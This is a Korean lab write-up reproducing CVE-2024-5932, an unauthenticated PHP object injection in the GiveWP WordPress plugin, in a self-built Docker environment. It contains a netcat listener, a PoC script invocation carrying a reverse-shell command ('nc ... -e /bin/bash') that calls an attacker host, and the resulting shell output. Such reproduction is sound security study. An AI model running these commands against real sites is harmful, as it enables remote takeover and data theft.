# CVE-2024-5932: GiveWP 플러그인 Unauthenticated PHP Object Injection (PoC)

## 1. 개요
이 리포트는 WordPress의 GiveWP 플러그인(3.14.1 버전 이하)에서 발생한 PHP Object Injection 취약점(CVE-2024-5932)을 Docker 환경에서 재현한 과정을 다룹니다.
Dockerfile과 docker-compose.yaml을 이용하여 WordPress 서버 및 취약한 플러그인 환경을 구축하고, 공개된 PoC 스크립트를 통해 리버스쉘 획득을 시도하였습니다.

### 취약점 발생 원인
CVE-2024-5932는 WordPress GiveWP 플러그인 내 일부 입력값에 대해 검증이 부재하여, 악의적인 직렬화 데이터를 역직렬화할 수 있었던 것이 원인입니다.  
특히, `give_title` 파라미터를 통한 역직렬화 과정에서 필터링이 충분히 이뤄지지 않아 PHP Object Injection 취약점이 발생하였습니다.


## 2. 환경 구축 방법
Docker와 docker-compose를 이용하여 WordPress와 MariaDB 환경을 구축하였습니다.

### 사용한 이미지
- wordpress:latest
- mariadb:10.5

### Docker-compose.yml 주요 설정
```yaml
version: '3'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress
      MYSQL_PASSWORD: wordpress
      MYSQL_ROOT_PASSWORD: wordpress
    ports:
      - "3306:3306"

  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - "8000:80"
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress
      WORDPRESS_DB_PASSWORD: wordpress
      WORDPRESS_DB_NAME: wordpress
    depends_on:
      - db
```

### 구축 방법
우분투 환경에서 아래 명령어로 컨테이너를 올립니다.
```bash
docker-compose up -d
```


## 3. 취약점 재현 (PoC)

### 공격자 및 피해자 환경
- 공격자 머신: Kali Linux
- 피해자 서버: Ubuntu 서버에 Docker로 구축된 WordPress + GiveWP 3.14.1

### 공격 준비
공격자 환경(Kali)에서 리버스쉘을 받을 준비를 합니다.

```bash
nc -lvnp 7777
```

### PoC 스크립트 실행
공격자는 PoC 스크립트를 사용하여 피해자 서버의 취약점을 이용합니다.
```bash
python3 CVE-2024-5932-rce.py -u "http://[피해자서버IP]:8000/donations/test-donation/" -c "nc [공격자IP] 7777 -e /bin/bash"
```
    [피해자서버IP] = Ubuntu 서버 IP (예: 192.168.0.50)
    [공격자IP] = Kali 머신 IP 
    
### 공격 결과
PoC 스크립트를 실행하면, 공격자 머신에서 아래와 같이 리버스쉘이 연결됩니다.
```bash
Ncat: Connection from 192.168.0.50.
Ncat: Connection from 192.168.0.50:50234.
whoami
www-data
```
리버스쉘이 정상적으로 획득되었고, 피해자 서버의 웹서버 권한(www-data)으로 명령어 실행이 가능합니다.


## 4. 시연 캡처 (Screenshots)

### 4.1 서버 구성
- WordPress 설치 완료 화면
  

- GiveWP 플러그인 업로드 화면
  

- GiveWP 플러그인 활성화 화면
  

- WordPress URL 설정 변경 화면
  
  

- 도네이션 폼 생성 완료 화면
  

### 4.2 공격

- 공격자(Kali) nc 대기 화면
  

- PoC 스크립트 실행 화면
  
  

- 리버스쉘 연결 성공 화면
  
  


## 5. 마무리

### 문제 및 해결 과정
- 초기에는 워드프레스 컨테이너에서 업로드 파일 크기 제한 때문에 취약한 플러그인(GiveWP 3.14.1)을 설치할 수 없었습니다.  
  ➔ php.ini 파일을 직접 생성 및 수정하여 업로드 제한을 늘려 문제를 해결하였습니다.

- 공격자 PoC 실행 시 연결 실패 문제가 발생했습니다.  
  ➔ 원인은 피해자 컨테이너 내부에 netcat이 설치되어 있지 않았던 것이었고, apt를 통해 netcat-traditional을 설치하여 해결했습니다.

- 리버스쉘 연결 시 IP 주소 및 포트 설정 실수가 있었습니다.  
  ➔ PoC 스크립트의 대상 URL 및 명령어를 수정하여 성공적으로 리버스쉘을 획득했습니다.

### 취약점의 심각성
CVE-2024-5932를 악용할 경우, 인증 없이 원격에서 임의 코드를 실행하거나, 서버 내 주요 파일(예: wp-config.php)을 삭제할 수 있습니다.  
이는 WordPress 전체 사이트 장악 및 데이터 탈취, 서버 자원 악용(예: 암호화폐 채굴) 등 심각한 결과로 이어질 수 있습니다.

### 최종 결론
Docker를 이용해 취약한 WordPress 환경을 구축하고, CVE-2024-5932에 대한 PoC 공격을 성공적으로 수행하였습니다.  
환경 구축, 취약점 재현, 문제 해결 과정을 통해 실전 상황에서 취약점 분석과 실습 환경 구축 능력을 향상시킬 수 있었습니다.
